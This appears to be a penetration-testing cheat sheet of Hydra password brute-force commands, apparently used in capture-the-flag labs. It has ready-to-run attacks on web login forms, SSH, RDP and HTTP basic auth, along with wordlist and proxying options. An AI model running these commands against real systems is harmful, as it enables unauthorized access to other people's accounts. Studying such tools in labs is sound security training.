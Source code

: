 [[Passwords]]
##### TLS
Specify port if you use https: `-s 443`
and specify scheme: `https-post-form`

##### Hydra with Burpsuite
```
tail /etc/proxychain.conf
http 127.0.0.1:8080
```

```bash
proxychains -q hydra ...
```

#### POST form:
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```
or success condition: :S=302 or :S=Dashboard
failure condition :F=Invalid

```shell
 hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.230 -s 30768 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


Multiple targets:
```shell
hydra -l root -p toor -M targets.txt ssh
```

#### Bruteforce ssh
```bash
 hydra -L users.txt -P passwords.txt 10.129.131.97 ssh
 ```

#### Generate passwords of charset and from 6 to 8 chars:
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

#### Bruteforce basic auth
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```